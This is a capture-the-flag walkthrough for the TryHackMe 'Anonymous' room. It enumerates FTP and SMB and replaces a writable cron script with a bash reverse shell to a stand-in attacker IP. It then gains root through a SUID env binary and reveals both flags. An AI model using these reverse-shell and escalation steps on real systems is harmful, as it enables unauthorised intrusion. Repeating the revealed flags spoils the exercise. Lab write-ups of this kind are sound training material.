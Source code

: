 # Room: [Anonymous](https://tryhackme.com/room/anonymous) (*Not the hacking group*) :wink:


## Basic Enum

Nmap / rustcan

```bash
IP=VICTIM
rustscan -a $IP | tee rustscan.log
[...]
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63

```

- Enumerate the machine.  How many ports are open?
**4**

- What service is running on port 21?
**ftp**

- What service is running on ports 139 and 445?
**smb**

```bash
smbclient -L $IP (without any password)

Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	pics            Disk      My SMB Share Directory for Pics
	IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))

```

- There's a share on the user's computer. What's it called?
**pics**

> HINT: What's that log file doing there?... nc won't work the way you'd expect it to

```bash
ftp $IP

Name: anonymous
Password: (without any password)
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
ftp> cd scripts
ftp> ls
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1376 Mar 05 22:23 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.

ftp> mget *
```
Let's cat each files: 

```bash
cat clean.sh 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

```bash
cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

```bash
cat to_do.txt        
I really need to disable the anonymous login...it's really not safe
```

## Basic shell

So let's have fun by uploading this reverse shell via ftp now:

```bash
cat clean.sh

#!/bin/bash
bash -i >& /dev/tcp/<AttackerIp>/4242 0>&1
```

And after few seconds we are in :

```bash
rlwrap nc -nlvp 4242
listening on [any] 4242
namelessone@anonymous:~$ 
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
ls
pics  user.txt
cat user.txt
90d6f992[Redcated]8748c414740
namelessone@anonymous:~$ 

```
<details>
  <summary>Click to reveal the user flag!</summary>
  
  ```bash
  90d6f992585815ff991e68748c414740
  ```
</details>
 
> HINT: This may require you to do some outside research

Indeed:

```bash
find / -perm -u=s 2>/dev/null
[...]
/usr/bin/env
```

So let's try this: [gtfobins break out from restricted environments](https://gtfobins.github.io/gtfobins/env/#shell) :point_left:

```bash
env /bin/bash -p
bash-4.4# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
cat /root/root.txt
4d930091[Redacted]f27999af363
bash-4.4# 

```

Houra :partying_face:

<details>
  <summary>Click to reveal the root flag!</summary>
  
  ```bash
  4d930091c31a622a7ed10f27999af363
  ```
</details>


### Useful Links:

[rustscan](https://github.com/RustScan/RustScan)

[revshells](https://www.revshells.com/)

[gtfobins](https://gtfobins.github.io/)

